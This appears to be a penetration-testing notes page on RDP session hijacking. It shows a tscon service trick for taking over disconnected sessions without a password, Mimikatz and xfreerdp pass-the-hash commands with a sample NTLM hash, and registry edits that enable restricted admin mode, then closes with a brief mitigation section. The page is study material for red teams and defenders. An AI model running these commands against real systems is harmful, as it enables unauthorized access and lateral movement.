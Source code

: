# RDP Session Hijacking

## <mark style="color:red;">Intro</mark>

<mark style="color:green;">**RDP hijacking attacks involve the attacker “resuming” a previously disconnected RDP session (without a proper logout)**</mark>. This allows the attacker to get into a privileged system without having to steal the user’s credentials. For example, if an administrator remoted into a Windows Server machine a few days ago, it is much easier for the attacker to “resume” this very session, rather than attempting to obtain the administrator account’s password.

{% hint style="info" %}
Connecting to a workstation with Remote Desktop will disconnect any existing session. The `/admin` flag allows us to connect to the admin session, which does not disconnect the current user if we perform the login with the same user.
{% endhint %}

## <mark style="color:red;">Passwordless hijacking</mark>

Let’s focus on the RDP hijacking technique leveraging the [Tscon.exe](https://support.microsoft.com/en-us/help/302801/the-use-of-tscon-exe-can-leave-a-previously-locked-console-unlocked) utility, which comes with Windows. It enables a user to connect to a different remote desktop session on a system or switch between different sessions.

The syntax for the command is simple:

```powershell
tscon {<SessionID> | <SessionName>} [/dest:<SessionName>] [/password:<pw> | /password:*] [/v]
```

The simplest example would be `tscon 2`.

&#x20;Running such a command on a server hosting the remote desktop session would connect the user to session with ID 2 and disconnect any existing sessions they are on. ****&#x20;

to resume a previously disconnected RDP session an attacker with system-level access can setup a service with this syntax:

```powershell
sc create hijackedsession binpath= “cmd.exe /k tscon 1 /dest:rdp-tcp#2”
net start hijackedsession

```

This will disconnect the current session of the attacker and “resume” the previously disconnected session between the attacker and the RDP server without asking for a password or leaving much of a forensic trace.

## <mark style="color:red;">restricted admin mode</mark>

Since clear text credentials are required for all interactive logins, <mark style="color:green;">**Microsoft introduced RDP with restricted admin mode which allows system administrators to perform a network login with RDP**</mark> In an attempt to prevent attackers from stealing credentials on a compromised server.

<mark style="color:green;">**A network login does not require clear text credentials and will not store them in memory, essentially disabling single sign-on.**</mark> This type of login is commonly used by service accounts.

We can use restricted admin mode by supplying the /restrictedadmin argument to mstsc.exe. When we supply this argument, <mark style="color:green;">**the current login session is used to authenticate the session :**</mark>

```
mstsc.exe /restrictedadmin
```

## <mark style="color:red;">Pass-the-Hash with mstsc.exe</mark>

Restricted admin mode is disabled by default but the setting can be controlled through the `DisableRestrictedAdmin` registry entry at the following path:

```
HKLM:\System\CurrentControlSet\Control\Lsa
```

{% hint style="success" %}
While restricted admin mode protects against credential theft on the target, when enabled, it is possible to pass the hash when doing lateral movement with mstsc.
{% endhint %}

```
sekurlsa::pth /user:admin /domain:corp1  /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```

to disable restricted admin mode, run this as admin:

```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

to enable it, first run a local powershell session as admin user:

```
sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```

and enable restricted admin mode:

```
Enter-PSSession -Computer appsrv01 
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

{% hint style="info" %}
#### <mark style="color:green;">xfreerdp RDP client, which is installed on a Kali system by default, supports restricted remote admin connections as well.</mark>
{% endhint %}

```
xfreerdp /u:admin /pth:2892D26CDF84D7A70E2EB3B9F05C425E /v:192.168.120.6 /cert-ignore
```

## <mark style="color:red;">Mitigation</mark>

Due to the nature of RDP protocol and the behavior exploited by this technique, monitoring for an RDP hijacking attack is difficult because, to forensic tools, the activity looks as if a legitimate, authorized remote user was accessing the system.

**Enforce Group Policy:** Instead of leaving “disconnected” remote desktop sessions in dormant state for long, Group Policy settings should be changed to log off users either instantly or shortly after they have disconnected an RDP session. This will prevent an attacker from simply “resuming” a session in a credential-less manner.
